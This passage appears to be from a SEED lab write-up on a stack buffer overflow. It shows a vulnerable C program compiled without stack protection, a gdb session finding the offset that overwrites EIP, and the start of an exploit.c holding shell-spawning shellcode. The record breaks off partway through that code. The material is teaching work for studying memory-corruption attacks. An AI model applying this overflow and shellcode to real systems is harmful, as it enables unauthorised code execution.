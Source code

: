 ```C
    fread(str, sizeof(char), 517, badfile);
    //bof(str);
    bof(argv[1]);
    printf("Returned Properly\n");
    return 1;
}
```

Then we use `gdb` to inspect its stack with/without buffer overflow.

```
seed@seed-desktop:~/lab/2$ gcc -o stack -fno-stack-protector stack.c -g
seed@seed-desktop:~/lab/2$ gdb stack
GNU gdb 6.8-debian
Copyright (C) 2008 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu"...
(gdb) r `python -c 'print "A"*11'`
Starting program: /home/seed/lab/2/stack `python -c 'print "A"*11'`
Returned Properly

Program exited with code 01.
(gdb) r `python -c 'print "A"*15'`
Starting program: /home/seed/lab/2/stack `python -c 'print "A"*15'`
Returned Properly

Program exited with code 01.
(gdb) r `python -c 'print "A"*16'`
Starting program: /home/seed/lab/2/stack `python -c 'print "A"*16'`

Program received signal SIGSEGV, Segmentation fault.
0x0804b008 in ?? ()
(gdb) r `python -c 'print "A"*19'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/seed/lab/2/stack `python -c 'print "A"*19'`

Program received signal SIGSEGV, Segmentation fault.
0x00414141 in ?? ()
(gdb) info reg ebp
ebp            0x41414141   0x41414141
(gdb) info reg eip
eip            0x414141 0x414141
(gdb) 
```
We see that the result is exactly what we expected.

The rest of work is simple. Our shellcode occupies 18 bytes, so we simply set 17th ~ 20th bytes in `badfile`. With noticing that the start address of `buffer[12]` is `0xbffff49c`, we can write `exploit.c` as follows:
```C
/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[]=
"\x31\xc0"
"\x50"
"\x68""//sh"
"\x68""/bin"
```